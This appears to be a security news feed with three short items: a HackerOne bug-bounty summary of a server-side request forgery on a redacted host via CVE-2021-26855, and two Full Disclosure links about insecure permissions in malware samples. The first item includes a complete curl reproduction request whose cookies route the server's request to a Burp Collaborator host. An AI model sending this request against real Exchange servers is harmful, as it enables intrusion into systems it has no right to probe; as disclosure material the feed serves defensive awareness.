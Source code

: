 via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1119224?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1119224?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Description:* There exists a Server Side Request Frogery (SSRF) on  █████████ due to CVE-2021-26855*** References https://cve.mitre.org/cgi-bin/cvename.cgi?name&#61;CVE-2021-26855 https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-26855 Impact Server Side Request Frogery System Host(s)  ██████ Affected Product(s) and Version(s) CVE Numbers CVE-2021-26855 Steps to Reproduce curl -i -s -k -X $'GET' \     -H $'Host:  ████' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11.1; rv:86.0) Gecko/20100101 Firefox/86.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q&#61;0.9,image/webp,*/*;q&#61;0.8' -H $'Accept-Language: en-US,en;q&#61;0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \     -b $'X-AnonResource&#61;true; X-AnonResource-Backend&#61;burpcollaborator.net/ecp/default.flt?~3; X-BEResource&#61;localhost/owa/auth/logon.aspx?~3' \     $'https:// ███/owa/auth/x.js' Output:  █████████ Suggested Mitigation/Remediation...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-03-25 10:53:22`

<blockquote>
BACKDOOR.WIN32.DARKKOMET.GOZU / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Mar/66

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Mar/66">
https://seclists.org/fulldisclosure/2021/Mar/66
</a>
</td></tr></table>

---

# defcon_news
`2021-03-25 10:53:21`

<blockquote>
Worm.Win32.Ngrbot.acno / Insecure Permissions
https://seclists.org/fulldisclosure/2021/Mar/65

via Full Disclosure
</blockquote>

<table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2021/Mar/65">
https://seclists.org/fulldisclosure/2021/Mar/65
</a>
</td></tr></table>

---